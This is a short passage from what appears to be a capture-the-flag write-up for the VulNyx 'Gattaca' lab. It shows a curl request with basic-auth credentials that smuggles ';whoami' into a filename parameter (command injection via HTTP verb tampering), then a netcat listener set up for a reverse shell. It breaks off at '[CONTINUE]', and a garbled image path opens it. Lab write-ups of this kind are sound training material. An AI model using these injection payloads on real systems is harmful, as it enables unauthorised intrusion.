 ![Burp Suite - POST Cards Page](./assets/screenshots/vulnyx_gattaca_burpsuite_post_card_page.png)

**Command Injection**

![Burp Suite - POST Command Injection Attempt](./assets/screenshots/vulnyx_gattaca_burpsuite_command_injection_attempt.png)

**HTTP Verb Tampering**

![Burp Suite - Command Injection Verb Tampering](./assets/screenshots/vulnyx_gattaca_burpsuite_command_injection_verb_tampering.png)

```
┌──(nabla㉿kali)-[~]
└─$ curl -s 'http://192.168.247.225/cards.php?filename=adenine.txt;whoami' -X GET --user 'admin:admin12345' | html2text
  
[SNIP]

www-data
```

```
┌──(nabla㉿kali)-[~]
└─$ nc -lnvp 1337                                                                                                     
listening on [any] 1337 ...

[CONTINUE]
```
